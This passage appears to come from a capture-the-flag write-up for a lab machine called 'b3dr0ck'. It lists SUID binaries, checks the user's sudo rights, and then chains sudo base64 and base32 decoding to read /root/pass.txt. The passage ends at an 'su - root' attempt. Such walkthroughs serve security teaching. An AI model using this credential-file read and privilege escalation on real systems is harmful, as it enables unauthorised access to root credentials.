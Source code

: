 /snap/core20/1328/usr/bin/chsh
/snap/core20/1328/usr/bin/gpasswd
/snap/core20/1328/usr/bin/mount
/snap/core20/1328/usr/bin/newgrp
/snap/core20/1328/usr/bin/passwd
/snap/core20/1328/usr/bin/su
/snap/core20/1328/usr/bin/sudo
/snap/core20/1328/usr/bin/umount
/snap/core20/1328/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1328/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su</pre>
</li>
<li>Hmm, nothing obvious here that we can find on&nbsp;<strong>GTFOBins</strong>... What else can we try? Let's check if&nbsp;<strong>fred</strong> can use&nbsp;<strong>sudo</strong></li>
<li>
<pre>fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt</pre>
</li>
<li>Interesting, user&nbsp;<strong>fred</strong> is allowed to use&nbsp;<strong>sudo</strong> for commands&nbsp;<strong>base32</strong> and&nbsp;<strong>base64</strong>, against what looks like root password&nbsp;<strong>/root/pass.txt</strong></li>
<li>Let's try to see what's in that file...</li>
<li>
<pre>fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode
JZVGQ3CZNJGXQWSENM2VSVDDPJHUIUTJLJKGG52ZKRCXQWL2IJVFU3KJGJNEORTKJVKESSYK</pre>
</li>
<li>Ok cool, that output still looks encoded... But looks more like&nbsp;<strong>base32</strong> than&nbsp;<strong>base64</strong>, let's keep decoding</li>
<li>
<pre>fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode | base32 --decode
NjhlYjMxZDk5YTczODRiZTcwYTExYzBjZmI2ZGFjMTIK</pre>
</li>
<li>So that worked, still looks encoded though ... now back in&nbsp;<strong>base64</strong>&nbsp;</li>
<li>
<pre>fred@b3dr0ck:~$ sudo base64 /root/pass.txt | base64 --decode | base32 --decode | base64 --decode
a00a12aad6b7c16bf07032bd05a31d56</pre>
</li>
<li>There it is! That looks like password or hash ... let's try password first</li>
<li>
<pre>fred@b3dr0ck:~$ su - root